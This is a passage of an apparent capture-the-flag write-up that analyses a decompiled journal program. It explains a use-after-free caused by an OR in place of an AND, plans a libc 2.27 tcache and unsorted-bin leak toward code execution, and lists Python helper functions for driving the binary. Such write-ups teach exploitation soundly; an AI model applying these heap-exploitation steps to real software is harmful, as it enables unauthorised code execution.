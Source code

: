 ```C
      error("Invalid copy/paste index");
    }
    else if ((*(char *)(*(long *)(Journals + (long)copy_index * 8) + 0x10) == '\1') ||
            (*(char *)(*(long *)(Journals + (long)paste_index * 8) + 0x10) == '\1')) {
      if (*(ulong *)(*(long *)(Journals + (long)paste_index * 8) + 8) <
              *(ulong *)(*(long *)(Journals + (long)copy_index * 8) + 8)) {
        error("Copy index size cannot be larger than the paste index size");
        return;
      }
      *(undefined4 *)(*(long *)(Journals + (long)paste_index * 8) + 0x14) = day;
      memcpy(**(void ***)(Journals + (long)paste_index * 8),
            **(void ***)(Journals + (long)copy_index * 8),
            *(size_t *)(*(long *)(Journals + (long)copy_index * 8) + 8));
      puts("Copy successfull!\n");
    }
    else {
      error("Journal index not in use");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The `copy_paste()` function is the most interesting of the bunch. It prompts the user for a `copy_index` and a `paste_index` on the global array of Journals. If none of the indices are NULL, and the Journals are inuse, it proceeds to copy the data of the `copy` Journal into the `paste` Journal. But here lies an important logic bug. Instead of the `&& (AND)` operator, the `|| (OR)` operator is used to check the validity of the Journals. So, one (and only one) of the Journals can have `inuse = false`, and we can interact with a freed Journal, which is a `UAF` (Use-After-Free) vulnerability. We can leverage it into a leak and get code execution later on.

### Exploitation

First things first, we want to obtain a `libc leak`. Since libc's veersion is `2.27`, the `tcache freelist` is used. To overcome this, we will fill a `tcache` of some arbitrary size, and the next freed chunk will be placed on the `unsorted bin`, with a pointer to libc's `main_arena` on it. By leaking that pointer, we  can easily calculate the `libc base address`.

```python
# few helper functions
def alloc(i, size, data=b'aaa'):
  r.sendlineafter(b'# ', b'1')
  r.sendlineafter(b':', str(i).encode())
  r.sendlineafter(b':', str(size).encode())
  r.sendlineafter(b':', data)

def delete(i):
  r.sendlineafter(b'# ', b'2')
  r.sendlineafter(b':', str(i).encode())

def view(i):
  r.sendlineafter(b'# ', b'3')
  r.sendlineafter(b':', str(i).encode())
  r.recvuntil(b':\n')
  return r.recvline()

def copy(copy_idx, paste_idx):
  r.sendlineafter(b'# ', b'4')
  r.sendlineafter(b':', str(copy_idx).encode())
  r.sendlineafter(b':', str(paste_idx).encode())
```